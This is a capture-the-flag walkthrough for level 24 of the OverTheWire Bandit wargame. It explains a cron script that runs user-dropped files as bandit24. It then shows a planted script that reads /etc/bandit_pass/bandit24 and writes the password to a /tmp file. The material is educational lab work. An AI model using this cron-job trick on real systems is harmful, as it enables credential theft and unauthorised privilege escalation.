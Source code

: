 # Level 24

> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

This is the script being executed as bandit24:

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
``` 

Basically what this script does is look for any scripts located in `/var/spool/bandit24/` and, if the user is `bandit23`, executes them. I went to a temporary directory and wrote this

```
bandit23@bandit:/tmp/lsdkfaj$ touch savepass.sh
bandit23@bandit:/tmp/lsdkfaj$ chmod +x savepass.sh 
bandit23@bandit:/tmp/lsdkfaj$ vim savepass.sh
```

```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/lsdkfaj/pass
```

That script should be enough. The only thing missing would be to create the `pass` file and allow bandit24 to write on it
```
bandit23@bandit:/tmp/lsdkfaj$ touch pass
bandit23@bandit:/tmp/lsdkfaj$ chmod +w pass
```

Copy `savepass.sh` to `/var/spool/bandit24/` and wait for the password to be sent to you.
